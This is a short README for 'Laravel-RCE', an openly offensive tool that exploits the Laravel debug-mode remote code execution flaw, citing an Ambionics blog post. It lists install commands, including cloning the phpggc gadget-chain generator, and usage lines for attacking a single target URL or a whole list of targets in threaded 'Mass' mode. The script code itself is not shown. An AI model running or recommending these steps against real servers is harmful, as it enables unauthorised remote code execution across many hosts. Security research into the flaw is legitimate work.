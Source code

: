 # Laravel-RCE
https://www.ambionics.io/blog/laravel-debug-rce<br />
# Install
> git clone https://github.com/wibuheker/Laravel-RCE.git<br />
> cd Laravel-RCE<br />
> git clone https://github.com/ambionics/phpggc.git<br />
> pip3 install requests readline termcolor argparse<br />
> python3 run.py -h
# Usage

Single :
python3 run.py -t http://redacted.gg

Mass:<br />
python3 run.py -t list.txt<br />
or if u want use thread <br />
python3 run.py -t list.txt --thread 2
